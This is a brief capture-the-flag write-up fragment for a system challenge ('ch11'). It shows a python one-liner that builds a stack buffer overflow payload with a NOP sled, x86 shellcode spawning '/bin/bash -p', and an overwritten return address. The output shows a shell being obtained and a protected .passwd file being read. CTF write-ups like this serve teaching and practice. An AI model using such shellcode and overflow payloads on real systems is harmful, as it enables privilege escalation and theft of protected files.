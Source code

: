 
Get a shell but a permission denied while trying to read .passwd

```
app-systeme-ch11@challenge02:~$ python -c 'print("\xff\xff\xff\x80" + "/\x90\x90\x90" + "\x90\x90\x90\x90" * 8 +  "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\x90\x90\x90\x90" * 21 + "\xd0\xf9\xff\xbf" * 3)' > /tmp/c11/test
app-systeme-ch11@challenge02:~$ ./ch11 /tmp/c11/test
[+] The pathname is : /�����������������������������������j
                                                           X�Rfh-p��Rjhh/bash/bin��RQS��̀������������������������������������������������������������������������������������������������

bash-4.4$ cat .passwd
8&1-|(5g8q!=
```

----------------------------------------------------------------------------------------
### Resources

[push and pop can messes with EBP and the shellcode](https://security.stackexchange.com/questions/181652/shellcode-doesnt-execute-and-eip-is-overwritten)